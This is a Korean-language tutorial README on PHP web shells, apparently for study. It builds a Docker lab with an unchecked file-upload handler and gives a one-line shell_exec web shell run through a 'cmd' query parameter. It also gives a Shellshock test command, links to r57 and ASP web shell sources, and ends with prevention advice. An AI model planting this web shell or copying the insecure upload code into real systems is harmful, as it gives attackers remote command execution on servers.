 ## web shell

해당 기법들은 공부용으로만 사용하기 바랍니다.

업로드 취약점을 통해 시스템에 명령을 내릴수 있는 코드를 칭하지만 내부적인 코드로 인해서 발생할수 있다.

해당 취약점이 발생되면 시스템에 원격으로 백도어를 심을수 있다.

대표적인 웹셀파일 r57.php 


# 시작하기


테스트 PHP-fpm-Apache을 설치해야한다. 

해당 설치는 도커파일로 대체한다. 다음과 같은 커멘드를 입력하게되면 위의 세팅이 들어간 도커가 실행된다.

```
docker run --rm -p 80:80 -v <sourcePath>:/var/www/html php:7.2-apache
```

```<sourcePath>```폴더에 fileAction.php 파일을 만든후 다음과 같은 코드를 넣는다.


```
//파일업로드 HTML 코드
<form enctype="multipart/form-data" action="fileAction.php" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="3000000" />
    이 파일을 전송합니다: <input name="userfile" type="file" />
    <input type="submit" value="파일 전송" />
</form>
```


실제 파일의 업로드하는 PHP 코드

move_uploaded_file을 이용하여 파일을 업로드 하는 코드

```
    <?php

    $uploaddir = '/var/www/html/uploads/';
    $uploadfile = $uploaddir . basename($_FILES['userfile']['name']);

    echo '<pre>';
    if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)) {
        echo "파일이 유효하고, 성공적으로 업로드 되었습니다.\n";
    } else {
        print "파일 업로드 실패";
    }

    echo '자세한 디버깅 정보입니다:';
    print_r($_FILES);

    print "</pre>";

    ?>
```

취약점을 가진 php파일을 생성후 

해당 파일을 업로드한다.

![업로드](https://github.com/rinechran/Hws/blob/master/img/fileupload.jpg)
```
<?php
echo shell_exec($_GET['cmd']);
?>
```
그리고 간단한 쉘스크립트를 GET프로토콜에 데이터 파라메타인 cmd에 쉘 스크립트를 실행해보자.

![업로드](https://github.com/rinechran/Hws/blob/master/img/exec.jpg)

위의 작업을 좀더 편하게 해주는 php가 대표적으로 r57.php 이 있다.

php를 업로드하여 들어가보자

![업로드](https://github.com/rinechran/Hws/blob/master/img/b374kmini.jpg)

또한 root가아니여도 2014-6271(Shell Shock) 사태처럼 쉘취약점을 이용하여 root를 탈취 가능하다.

bash Shell 취약점 테스트 

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```


## 예방법

- 웹 서버의 파일 업로드 취약점 제거

- 파일 업로드 폴더의 실행 제한

- 웹 서버의 실행을 root로 하지말기(이는 예방법은 아니고 최소한의 피해를 방지하기 위한 보호법이라고 보는게 좋다.)

## 타 언어의 webShell

Node :  https://s1gnalcha0s.github.io/node/2015/01/31/SSJS-webshell-injection.html
eval같은 취약함수 때문에 발생하기때문에 사용에 주의가 필요하다.


asp : https://github.com/tennc/webshell/blob/master/asp/webshell.asp


## 참조

https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084

http://www.r57.gen.tr/
